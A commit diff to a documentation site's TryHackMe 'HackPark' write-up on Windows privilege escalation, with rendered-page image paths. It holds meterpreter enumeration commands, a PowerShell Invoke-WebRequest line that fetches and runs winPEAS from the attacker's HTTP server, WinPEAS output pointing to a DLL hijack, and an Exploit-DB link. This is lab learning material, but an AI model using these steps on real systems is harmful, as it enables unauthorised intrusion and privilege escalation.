

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/hackpark.md, in a window 1280 px wide and 1400 px high, scrolled down 8132 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/thm/hackpark.md
+++ b/source/docs/thm/hackpark.md
@@ -258,11 +258,23 @@ Get detailed information about the Windows system:
 
 ```text
 meterpreter > sysinfo
+```
+
+```text
 meterpreter > ps
+```
+
+```text
 meterpreter > cd "c:\program files (x86)"
 meterpreter > ls
+```
+
+```text
 meterpreter > cd SystemScheduler
 meterpreter > ls
+```
+
+```text
 meterpreter > cd events
 meterpreter > ls
 ```
@@ -315,17 +327,45 @@ meterpreter > cat root.txt
 
 Get WinPEAS:
 
-    # wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
+    # wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe
 
 Start a http server:
 
     # python -m http.server 8888
 
-In the reverse shell, download WinPEAS:
-
-    powershell -c "Invoke-WebRequest -Uri 'http://<IP address target>:8888/WinPEAS.bat' -OutFile 'c:\windows\temp\winpeas.exe'"
-
-Drop into a normal cmd shell and execute WinPEAS:
+In the meterpreter shell, drop into a normal cmd shell, cd in to the Temp folder which is writeable by everyone,
+then use PowerShell to pull winPEAS over:
 
     meterpreter > shell
-    c:\Windows\Temp> winpeas.exe
+    C:\Windows\Temp> powershell -c "Invoke-WebRequest -Uri 'http://<IP address target>:8888/WinPEAS.exe' -OutFile 'c:\windows\temp\winpeas.exe'"
+    C:\Windows\Temp> winpeas.exe
+
+A lot of output. The Services Information section:
+
+```text
+  ========================================(Services Information)========================================
+  [+] Interesting Services -non Microsoft-
+   [?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
+    Amazon EC2Launch(Amazon Web Services, Inc. - Amazon EC2Launch)["C:\Program Files\Amazon\EC2Launch\EC2Launch.exe" service] - Auto - Stopped
+    Amazon EC2Launch
+   =================================================================================================
+    AmazonSSMAgent(Amazon SSM Agent)["C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"] - Auto - Running
+    Amazon SSM Agent
+   =================================================================================================
+    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
+    AWS Lite Guest Agent
+   =================================================================================================
+    Ec2Config(Amazon Web Services, Inc. - Ec2Config)["C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe"] - Auto - Running - isDotNet
+    Ec2 Configuration Service
+   =================================================================================================
+    PsShutdownSvc(Systems Internals - PsShutdown)[C:\Windows\PSSDNSVC.EXE] - Manual - Stopped
+   =================================================================================================
+    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
+    File Permissions: Everyone [WriteData/CreateFiles]
+    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
+    System Scheduler Service Wrapper
+   =================================================================================================
+```
+
+The last one indicates a possible DLL hijack. On Exploit-DB:
+[Splinterware System Scheduler Pro 5.12 - Privilege Escalation](https://www.exploit-db.com/exploits/45072)
````
Also changed, not shown: other parts of source/docs/thm/hackpark.md (+5 -5 lines).
